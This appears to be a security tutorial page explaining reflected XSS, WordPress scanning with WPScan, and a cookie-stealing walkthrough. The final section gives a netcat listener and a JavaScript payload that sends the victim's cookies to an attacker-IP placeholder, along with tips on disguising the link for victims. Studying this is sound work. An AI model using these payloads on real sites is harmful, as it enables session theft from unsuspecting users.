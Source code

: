 # 2.3.2 Reflected XSS

## Reflected XSS

{% embed url="https://portswigger.net/web-security/cross-site-scripting/reflected" %}

<figure><img src="../../../../.gitbook/assets/image (65).png" alt=""><figcaption><p><a href="https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/">https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/</a></p></figcaption></figure>

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Suppose a website has a search function which receives the user-supplied search term in a URL parameter:

`https://insecure-website.com/search?term=gift`

The application echoes the supplied search term in the response to this URL:

`<p>You searched for: gift</p>`

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:

`https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`

This URL results in the following response:

`<p>You searched for: <script>/* Bad stuff here... */</script></p>`

If another user of the application requests the attacker's URL, then the script supplied by the attacker will execute in the victim user's browser, in the context of their session with the application.

### Exploiting Reflected XSS Vulnerabilities in WordPress

<details>

<summary>What is WordPress?</summary>

WordPress is a popular open-source content management system (CMS) used for creating websites and blogs. It provides a user-friendly interface and a wide range of plugins and themes, making it easy for users to build and customize their websites without needing extensive technical knowledge. WordPress is highly customizable, scalable, and is used by millions of websites worldwide.

</details>

Mainly by not frequently updating installed themes and plugins versions, vulnerabilities may occur, and this is where the WPScan tool comes in.

WPScan is a security scanner specifically designed to test the security of WordPress websites. It can identify security vulnerabilities in WordPress installations, themes, and plugins. WPScan works by scanning the target website for known security issues, such as outdated software versions, weak passwords, and common configuration errors. It helps website owners and developers identify and fix security flaws to protect their websites from potential attacks and breaches.

We can install it using following command: `sudo apt-get install wpscan`



{% embed url="https://github.com/wpscanteam/wpscan" %}

* Go to wpscan.com, register, login and configure account.
* Generate an API key/token
* Launch scan -> `wpscan --url <Website_URL>`
* See results and search potential exploit on exploitdb using `searchsploit <vulnerability_name>`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags)

### Cookie Stealing Via Reflected XSS

* First verify that website is vulnerable to XSS -> `<script>alert("XSS")</script>`
* Take on listening on attacker machine using netcat -> `nc -lvnp 4444`
* Insert payload at the end of website -> n`ew Image() .src='http://<Attacker_IP>:4444/?cookie=' + encodeURI(document.cookie);`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags), we can use BurpSuite decoder

<figure><img src="../../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

* Obtain connection on netcat in listening.
